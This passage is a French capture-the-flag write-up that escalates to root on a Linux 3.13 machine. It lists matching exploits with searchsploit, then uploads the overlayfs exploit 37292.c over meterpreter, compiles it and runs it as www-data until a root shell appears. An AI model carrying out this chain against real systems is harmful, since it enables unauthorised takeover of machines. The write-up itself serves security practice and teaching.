Depuis 2014, des codes d'exploitation auront sûrement été publiés sur Internet pour cette version du noyau Linux.

```console
root@blinils:~# searchsploit linux 3.13
 ------------------------------------------------------------------------------------------------------------------ 
| Exploit Title                                                                                                    |
 ------------------------------------------------------------------------------------------------------------------ 
| Linux Kernel 3.13 - SGID Privilege Escalation                                                                    |
| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation             |
| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access...) |
| Linux Kernel 3.13.1 - 'Recvmmsg' Local Privilege Escalation (Metasploit)                                         |
| Linux Kernel 3.13/3.14 (Ubuntu) - 'splice()' System Call Local Denial of Service                                 |
| Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Privilege Escalation (3)           |
| Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)                                  |
| Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)                                                            |
| id Software Solaris Quake II 3.13/3.14 / QuakeWorld 2.0/2.1 / Quake 1.9/3.13/3.14 - Command Execution            |
| pam-krb5 < 3.13 - Local Privilege Escalation                                                                     |
 ------------------------------------------------------------------------------------------------------------------ 
```

Le premier exploit n'a pas fonctionné, mais le deuxième de la liste s'avère être le bon !

```console
meterpreter > upload /usr/share/exploitdb/exploits/linux/local/37292.c /tmp
[*] uploading  : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp
[*] uploaded   : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp/37292.c

meterpreter > shell
Process 1572 created.
Channel 5 created.

gcc /tmp/37292.c -o /tmp/37292

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

chmod +x 37292

./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off

# id
```